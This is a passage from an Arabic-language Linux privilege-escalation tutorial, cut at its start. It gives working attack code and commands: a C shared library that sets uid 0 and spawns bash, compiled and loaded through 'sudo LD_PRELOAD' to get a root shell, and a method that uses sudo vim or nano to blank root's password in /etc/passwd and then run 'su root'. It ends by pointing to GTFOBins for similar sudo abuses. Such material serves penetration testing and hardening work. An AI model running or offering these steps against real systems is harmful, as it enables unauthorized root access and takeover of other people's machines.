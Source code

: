1️⃣ **إنشاء كود C لفتح شل root**

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

2️⃣ **ترجمة الكود إلى مكتبة `.so`**

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

3️⃣ **تشغيل البرنامج بصلاحيات `sudo` مع `LD_PRELOAD`**

```bash
sudo LD_PRELOAD=/home/user/shell.so find
```

☠️ **الخطورة**: سيتم تحميل مكتبة `.so`، مما يسمح لك بالحصول على **root shell**.

---

# **🔹 10. استغلال `sudo` لتعديل `/etc/passwd`**

🔸 إذا كنت تستطيع تشغيل `vim` أو `nano` باستخدام `sudo`، يمكنك تعديل `/etc/passwd` لإضافة مستخدم root جديد.

## **📌 الخطوات**

1️⃣ **افتح `/etc/passwd` باستخدام `vim` أو `nano`**

```bash
sudo vim /etc/passwd
```

2️⃣ **ابحث عن السطر الخاص بـ `root` وعدله ليصبح:**

```
root::0:0:root:/root:/bin/bash
```

3️⃣ **احفظ الملف، ثم انتقل إلى root**

```bash
su root
```

☠️ **الخطورة**: يمكنك إنشاء مستخدم root جديد بدون الحاجة إلى كلمة مرور.

---
### هام :
أوامر تانية زي `find`، `awk`، `tar`، و `zip` ليهم نفس الاستغلالات. ممكن تستخدم موقع **GTFOBins** للبحث عن أي أمر عندك وتشوف استغلاله:  
[https://gtfobins.github.io/](https://gtfobins.github.io/)
